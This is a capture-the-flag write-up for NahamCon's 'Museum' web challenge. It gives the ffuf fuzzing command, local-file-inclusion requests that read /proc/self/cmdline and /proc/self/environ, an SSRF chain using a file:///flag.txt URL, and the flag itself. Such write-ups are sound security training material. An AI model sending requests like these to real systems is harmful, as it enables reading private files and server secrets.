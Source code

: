 # Museum
```
Check out our museum of artifacts! Apparently, soon they will allow public submissions, just like in Animal Crossing!

Retrive the flag out of /flag.txt in the root of the file system.
```

## Writeup

fuzz using 
```
 ffuf -c -w lfi.txt -u 'http://challenge.nahamcon.com:30718/browse?artifact=FUZZ'
```
try to get the flag.txt file:

using procfs `/proc/self/cmdline` to get the source file path:
`http://challenge.nahamcon.com:30634/browse?artifact=/./proc/self/cmdline`
and the `/proc/self/environ` returns:
```
MAIL=/var/mail/museumUSER=museumHOME=/home/museumLOGNAME=museumPATH=/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin:/usr/games:/usr/local/games:/snap/binLANG=C.UTF-8SHELL=/bin/shPWD=/home/museumLC_ALL=C.UTF-8
```
get that:
```python3/home/museum/app.py
```
then, 

http://127.0.0.1:5000/private_submission?url=file:///flag.txt&filename=flag3.txt
http://challenge.nahamcon.com:31838/private_submission_fetch?url=http%3A%2F%2F127.0.0.1%3A5000%2Fprivate_submission%3Furl%3Dfile%3A%2F%2F%2Fflag.txt%26filename%3Dflag3.txt

http://challenge.nahamcon.com:31838/public/flag3.txt
flag{c3d727275bee25a40fae2d2d2fba9d70}

